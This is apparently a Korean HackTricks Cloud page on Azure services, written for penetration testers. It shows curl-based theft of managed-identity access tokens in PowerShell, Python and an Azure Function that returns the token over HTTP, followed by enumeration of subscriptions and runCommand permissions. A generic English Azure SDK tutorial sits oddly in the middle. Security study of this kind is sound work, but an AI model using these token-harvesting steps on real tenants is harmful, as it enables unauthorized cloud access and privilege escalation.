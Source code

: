 # Az - 서비스

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) **및** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 저장소에 제출**하세요.

</details>

## 포털

**Microsoft 포털 목록은** [**https://msportals.io/**](https://msportals.io/)에서 찾을 수 있습니다.

### Raw 요청

#### Powershell을 통한 Azure API

**IDENTITY\_HEADER** 및 **IDENTITY\_ENDPOINT**에서 **access\_token**을 가져옵니다: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

그런 다음 Azure REST API를 쿼리하여 **구독 ID** 및 기타 정보를 얻습니다.
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Azure API를 사용하는 Python 버전

To interact with Azure services using Python, you can make use of the Azure SDK for Python. This SDK provides a set of libraries and tools that allow you to easily access and manage various Azure services programmatically.

To get started, you will need to install the Azure SDK for Python. You can do this by running the following command:

```bash
pip install azure
```

Once the SDK is installed, you can import the necessary modules in your Python script to interact with Azure services. For example, to work with Azure Blob Storage, you can import the `azure.storage.blob` module:

```python
from azure.storage.blob import BlobServiceClient
```

You will also need to authenticate your Python script to access your Azure resources. This can be done by providing your Azure subscription credentials or by using Azure Active Directory (AAD) authentication.

To authenticate using your Azure subscription credentials, you can use the `DefaultAzureCredential` class from the `azure.identity` module:

```python
from azure.identity import DefaultAzureCredential

credential = DefaultAzureCredential()
```

Alternatively, you can authenticate using Azure Active Directory (AAD) authentication. This requires registering an application in Azure AD and obtaining a client ID and client secret. You can then use the `ClientSecretCredential` class from the `azure.identity` module:

```python
from azure.identity import ClientSecretCredential

tenant_id = "<your-tenant-id>"
client_id = "<your-client-id>"
client_secret = "<your-client-secret>"

credential = ClientSecretCredential(tenant_id, client_id, client_secret)
```

Once you have authenticated, you can create an instance of the Azure service client and start interacting with the service. For example, to create a BlobServiceClient instance for Azure Blob Storage, you can use the following code:

```python
blob_service_client = BlobServiceClient(account_url="<your-account-url>", credential=credential)
```

You can then use the methods provided by the Azure service client to perform various operations on the service. For example, to upload a file to Azure Blob Storage, you can use the `upload_blob` method:

```python
with open("<path-to-file>", "rb") as data:
    blob_service_client.upload_blob("<container-name>", "<blob-name>", data)
```

This is just a basic example of how to interact with Azure services using Python. The Azure SDK for Python provides a wide range of functionalities and features for working with different Azure services. You can refer to the official documentation for more information on how to use the SDK and its capabilities.
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
또는 Python 함수 내부에서:
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## 서비스 목록

**이 섹션의 페이지는 Azure 서비스별로 정렬되어 있습니다. 여기에서 각 서비스에 대한 정보(작동 방식 및 기능)와 각 서비스를 열거하는 방법을 찾을 수 있습니다.**

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>을 통해 제로부터 영웅이 되기까지 AWS 해킹을 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
